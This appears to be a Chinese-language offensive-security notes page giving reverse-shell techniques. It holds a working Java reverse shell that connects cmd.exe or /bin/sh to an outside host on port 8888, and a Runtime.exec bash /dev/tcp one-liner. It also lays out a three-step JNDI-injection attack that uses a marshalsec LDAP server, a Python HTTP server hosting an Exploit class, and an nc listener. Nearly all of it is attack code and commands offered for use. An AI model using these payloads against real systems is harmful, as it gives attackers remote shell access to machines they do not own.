 ```java
            String host="49.x.y.z";
            int port=8888;
            String cmd="cmd.exe";
            // String cmd="/bin/sh"
            Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
            Socket s=new Socket(host,port);
            InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
            OutputStream po=p.getOutputStream(),so=s.getOutputStream();
            while(!s.isClosed()) {
                while(pi.available()>0)
                    so.write(pi.read());
                while(pe.available()>0)
                    so.write(pe.read());
                while(si.available()>0)
                    po.write(si.read());
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
                    p.exitValue();
                    break;
                }
                catch (Exception e){
                }
            };
            p.destroy();
            s.close();
```



参考：
https://gist.github.com/caseydunham/53eb8503efad39b83633961f12441af0



执行系统命令：
```
java.lang.Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/127.0.0.1/7777 0>&1")
```


### JNDI注入反弹shell

1、开启LDAP服务，并指向另外一个开启HTTP服务的端口
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:8888/#Exploit
```
2、编译Exploit.java（静态代码块中写入反弹shell的payload），开启HTTP服务
```bash
python3 -m http.server 8888
```
3、监听某端口，接收反弹回来的shell
```bash
nc -klvn 7777
```

